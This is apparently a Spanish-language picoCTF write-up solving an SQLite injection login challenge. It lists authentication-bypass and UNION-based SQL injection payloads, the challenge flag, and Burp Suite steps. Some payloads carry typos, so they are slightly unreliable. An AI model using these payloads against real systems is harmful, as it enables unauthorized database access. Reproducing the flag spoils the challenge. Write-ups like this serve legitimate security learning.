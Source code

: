 
## Descripción

*Can you find the flag on this website.
Additional details will be available after launching your challenge instance.*

## Pistas

*SQLiLite*

## Solución

```
please login in
'or 1==1;
password
'or 1==1;
'union select sqlite_version(),2,3;
Algiers' union select sql,2,3 from sqlite_sqli_master;
hola' union select id,flag,3,from more_table;
```

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}

*Burpsite*

*Prendemos burpsite para interceptar la inyección, ponemos la info de login, nos vamos a proxy a la solicitud inicial y en la respuesta se encuentra la bandera
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}*
## Notas Adicionales 

*Intentamos logearnos con admin y admin de contraseña, no nos permite, entonces es una inyección sql, intentamos con ' or 1= =1; en ambos apartados y logramos entrar a página de bienvenida, para seguir buscando, ocupamos saber sobre sqli lite, encontramos el comando para buscar la versión le damos en buscar, si la encuentra, ahora buscamos la estructura de las tablas con sqli master, extraemos los datos de la tabla con un select y al buscar nos da la bandera *


## Referencias 

http://saturn.picoctf.net:53830/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md


